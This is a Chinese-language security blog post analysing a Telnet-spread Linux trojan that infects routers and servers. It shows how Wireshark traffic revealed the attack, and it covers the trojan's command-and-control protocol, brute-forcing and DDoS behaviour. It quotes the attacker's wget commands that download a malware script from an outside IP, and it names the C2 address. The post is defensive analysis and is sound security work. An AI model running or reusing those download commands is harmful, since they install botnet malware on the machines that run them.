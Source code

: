# WireShark黑客发现之旅（8）—针对路由器的Linux木马

**Author：Mr.Right、Gongmo**  
**申明：**文中提到的攻击方式仅为曝光、打击恶意网络攻击行为，切勿模仿，否则后果自负。

0x00 前言
=======

* * *

路由器木马，其主要目标是控制网络的核心路由设备；一旦攻击成功，其危害性远大于一台主机被控。

如果仅仅在路由器上面防范该类木马，那也是不够的，有很多Linux服务器违规开放Telnet端口，且使用了弱口令，一样可以中招。下面我们就一起来回顾一起真实案例。

0x01 发现异常
=========

* * *

在对客户某服务器区域进行安全监测时发现某服务器通信流量存在大量Telnet协议。截取一段数据，进行协议统计：

![p1](http://drops.javaweb.org/uploads/images/c0413a2adb383534d650aaba6d6afe2e4227a4ff.jpg)

Telnet协议一般为路由器管理协议，服务器中存在此协议可初步判断为异常流量。继续进行端口、IP走向统计：发现大量外部IP通过Tcp23端口（Telnet）连接该服务器。

![p2](http://drops.javaweb.org/uploads/images/e33e2a8909b7acc35c85da0a15f745cc8ba84025.jpg)

此统计可说明：

1.  该服务器违规开放了TCP23端口；
2.  该服务器遭到大量Telnet攻击，有可能是暴力破解，也有可能是已经成功连接。

挑选通信量较大的IP，筛选通信双向数据：

![p3](http://drops.javaweb.org/uploads/images/1a685ec74da3d4336ec2e66a25b9cb31dcda26e4.jpg)

查看Telnet数据，发现已经成功连接该服务器。

![p4](http://drops.javaweb.org/uploads/images/55850beb1dfb12c10c9680cbd380714582d718b2.jpg)

数据中还存在大量Telnet扫描探测、暴力破解攻击，在此不再详述。

0x02 获取样本
=========

* * *

为进一步查看Telnet通信内容，Follow TcpStream。

![p5](http://drops.javaweb.org/uploads/images/29c795c3fed6ea1e7b0911e9d5229945e718fadc.jpg)

将内容复制粘贴至文本编辑器：

![p6](http://drops.javaweb.org/uploads/images/941c3adc17461f7798a6caf00ddf6c4fcd1870f5.jpg)

发现一段自动下载命令：

```
wget http://208.67.1.42/bin.sh;
wget1 http://208.67.1.42/bin2.sh。

```

连接`http://208.67.1.42/bin.sh`可发现该脚本文件内容为自动下载获取木马，且木马可感染ARM、MIPS、X86、PowerPC等架构的设备。

![p7](http://drops.javaweb.org/uploads/images/71359a7bc5ee5d93f0922cf35a5491e08dba0a36.jpg)

0x03 木马分析
=========

* * *

（**注：本章节不属于Wireshark分析范畴，本文仅以jackmyx86分析为例**）

该木马文件是ELF格式的，影响的操作系统包括：

![p8](http://drops.javaweb.org/uploads/images/7bd84ff150b406226c1a846777628a75b8021b24.jpg)

从上图中判断木马下载的类型分别是：Mipsel,misp,x86(其实这个是x64),arm,x86(i586,i686)等。

从截获的`*.sh`文件看，`*.sh`脚本想删除这些目录和内容，并且关闭一些进程。

![p9](http://drops.javaweb.org/uploads/images/5d6ca5e9300b1f0a0d3b3ab20459cf1416342ca4.jpg)

首先得到了一个”Art of war”的字符串（看来黑客是个文艺青年）。

![p10](http://drops.javaweb.org/uploads/images/502eca9327df35b2e172b9ba9b76c84c88445625.jpg)

接着尝试打开路由器配置文件。

![p11](http://drops.javaweb.org/uploads/images/f8c4e08067cfdb6a5b8be0284531e58264b2e781.jpg)

在配置文件里查找字符串00000000，如果找到就直接填充0；

![p12](http://drops.javaweb.org/uploads/images/c3b1e8eb784acff3e912dfe31ddfefb6d5da8f11.jpg)

在初始化函数中：尝试建立socket连接，连接地址为：208.67.1.194:164。

![p13](http://drops.javaweb.org/uploads/images/17eb1b39980580fecd61452a32a7938ce5ad0056.jpg)

尝试连接服务器，等待远端服务器应答。

![p14](http://drops.javaweb.org/uploads/images/c040837f1fa9bb2d8cbb1dc9b37977e15eceb7fc.jpg)

服务器发送“ping”命令后，客户端返回“pong”表示已经连接成功。当发送“GETLOCALIP”后，返回控制端的本机IP。当服务器发送SCANNER后，根据ON或者OFF来控制是否要扫描指定IP，进行暴力破解。当发送“UDP”命令时候，向指定的IP地址发送大量UDP无效数据包。

![p15](http://drops.javaweb.org/uploads/images/e2b176b908e29706954d67480a11050feb100e06.jpg)

![p16](http://drops.javaweb.org/uploads/images/d722f86a2e2b4bdefc1664cdc2365fa2410be7cb.jpg)

![p17](http://drops.javaweb.org/uploads/images/cbaa10c15543be2ebd4fe9403e56a90d2c3a37ff.jpg)

下图是木马尝试获得路由器的用户名和密码匹配，企图暴力破解账户和密码。

![p18](http://drops.javaweb.org/uploads/images/51a46d9d3f187df67493f8e8d60e45e9cfbaa8ab.jpg)

![p19](http://drops.javaweb.org/uploads/images/de63c2e21310ba1a78e7f33ed5197ba309a2f462.jpg)

![p20](http://drops.javaweb.org/uploads/images/e782599233ab756d67398c5f8bf61efc0d45025b.jpg)

在被控制之后，跟随服务器指定的IP，发送大量随机生成的长度为0x400的字符串数据，进行DDOS攻击。下图是发送垃圾数据,进行DDOS攻击。

![p21](http://drops.javaweb.org/uploads/images/da085ba07ec40ececfa5abc66779b09950b7eb72.jpg)

![p22](http://drops.javaweb.org/uploads/images/67cc1bcd6af7b30f347d5399b450193bc02abaf5.jpg)

随机数据生成的伪代码如下：

![p23](http://drops.javaweb.org/uploads/images/6821d6d6f28502ed3814c116a7f3e582462c974d.jpg)

根据网址追溯到攻击者的网页和twitter账号。

![p24](http://drops.javaweb.org/uploads/images/c5ddb63b001e53d5f7346dcc3542672dcc56db96.jpg)

![p25](http://drops.javaweb.org/uploads/images/360a24d3123d1e54d034082b9d1ca8e1eec56072.jpg)

![p26](http://drops.javaweb.org/uploads/images/6de3abb27fdb8a7375622bed17e3265b9133e0d9.jpg)

0x04 总结
=======

* * *

1.  路由器的管理如非必须，尽量不开放互联网管理通道
2.  路由器管理密码必须强口令、最好超强
3.  Linux服务器一般不要打开Telnet服务
4.  该木马一般利用爆破和漏洞来攻击路由器或开启Telnet服务的Linux服务器，中招后接受木马作者的控制，最后进行大量DDOS攻击